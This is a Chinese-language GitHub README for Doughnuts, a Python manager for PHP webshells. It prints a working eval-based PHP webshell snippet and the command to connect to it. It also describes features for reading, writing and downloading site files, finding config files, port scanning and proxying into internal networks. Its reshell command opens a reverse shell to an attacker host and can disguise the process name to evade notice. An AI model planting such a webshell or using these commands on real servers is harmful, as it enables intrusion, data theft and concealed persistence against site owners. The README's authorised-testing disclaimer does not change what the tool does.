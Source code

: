 ```yaml
---
description: 一个特化的Webshell管理工具
---
```


# Doughnuts

_基于Python3.6+的PHPwebshell管理器_

 [![YPIoee.png](https://camo.githubusercontent.com/5fee1ac94ee27c8de48598887d64edfd6a30b44f/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496f65652e706e67)](https://camo.githubusercontent.com/5fee1ac94ee27c8de48598887d64edfd6a30b44f/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496f65652e706e67) [![YPIjQf.png](https://camo.githubusercontent.com/e0529a5dd719de0df2906f30943ff4d5108f90c2/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496a51662e706e67)](https://camo.githubusercontent.com/e0529a5dd719de0df2906f30943ff4d5108f90c2/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496a51662e706e67)

## 特征

* 支持连接、记录、管理Webshell，方便下一次连接
* 基于eval的连接，支持GET、POST、COOKIE以及HEADERS四种连接方式
* 支持编码payload\(已内置base64，str\_rot13两种编码,可以通过添加encode目录中的py文件进行扩展\),以实现连接带有解码的Webshell
* 核心功能
  * 获取网站，系统信息
  * 获取一个临时的非完全交互式shell和webshell
  * 以php/python的方式反弹shell\(windows/unix通用\)
  * 读/写/上传/下载/删除网站文件
  * 网站目录打包下载
  * 寻找可写的PHP文件\(以树状结构显示\)
  * 寻找配置文件\(文件名中包含cfg/config/db/database\) 也可以通过修改代码来支持寻找更多的文件\(以树状结构显示\)
  * 输出disbale\_functions
  * 端口扫描
  * 内网代理浏览功能
* 使用可扩展性的模块化编写，易于编写、管理自定义插件

## 依赖

* Python3.6+
* Python-requests
* Python-colorama

## 安装方法

```text
安装PYTHON 3.6+
git clone https://github.com/WAY29/Doughnuts.git
进入Doughnuts目录下
pip install -r requirements.txt 或 pip install requests colorma
python doughnuts.py
enjoy it!
```

## 使用例子

假如要连接以下的webshell:

```text

error_reporting(0);
eval(str_rot13(base64_decode($_REQUEST['2333'])));/
?>
```

那么只需要运行Doughnuts.py,并输入以下命令:

```text
connect http://localhost/test.php GET 2333 rot13 base64
```

即可成功连接至webshell

## 参考

灵感源自[https://github.com/WangYihang/Webshell-Sniper](https://github.com/WangYihang/Webshell-Sniper)

原作者：Longlone

## 更新



### V1.8.1

* 增加3种可选模式的内网代理浏览功能，支持GET、POST参数请求，自动跳转以及跳转时COOKIE自动获取传输功能，可在最大程度保留js和css内容前提下将浏览得到的内容存入本地.html文件中

### V1.8

* 优化连接时发送的请求,从发送三次变成发送2次
* 修改pdf命令的逻辑,在连接时获取
* 优化reshell命令,命令格式为reshell {lhost} {port} {type=\[python\|script\|upload\]{1\|2\|3},default = 0 \(Python:1 Not Python:3\)} {\(Only for Mode 2\) fakename=/usr/lib/systemd} 三种模式分别为:1-&gt;使用python pty模块升级, 2-&gt;使用linux自带的script命令升级, 3-&gt;上传一个反弹pty的二进制文件并运行\(可以伪造进程名,若无法反弹请进入libs目录拿取源码,使用目标相同发行版进行编译后覆盖原reverse\_server\_light文件\)

### V1.7

* 修改reshell命令,修复bug,优化体验,可以随意伪装进程名
* 在libs目录下放置reverse\_server\_light的源码,方便编译与修改\(origin:[https://github.com/QAX-A-Team/ptyshell](https://github.com/QAX-A-Team/ptyshell)\)
* 重写portscan,支持三种扫描方式

### V1.6

* 修复了若干bug
* 添加了reshell命令,监听本地端口,并让目标反弹一个完整交互式的shell\(仅限双方系统都是linux且可能存在一定的问题\)

### V1.5

* modify指令现在会调用notepad/vim进行编辑
* write指令现在会调用notepad/vim进行编辑
* dump命令现在使用原始php代码进行压缩,可以压缩子目录
* 优化了发送payload的间隔符

### V1.4

* 添加指令:修改文件
* 关闭debug模式
* 修复了某些情况下fwpf,fc指令无法使用的情况,现在发送数据时会关闭错误提示

## 免责声明

本项目仅供网站管理人员与渗透测试人员学习与交流,任何使用本项目进行的一切未授权攻击行为与本人无关.

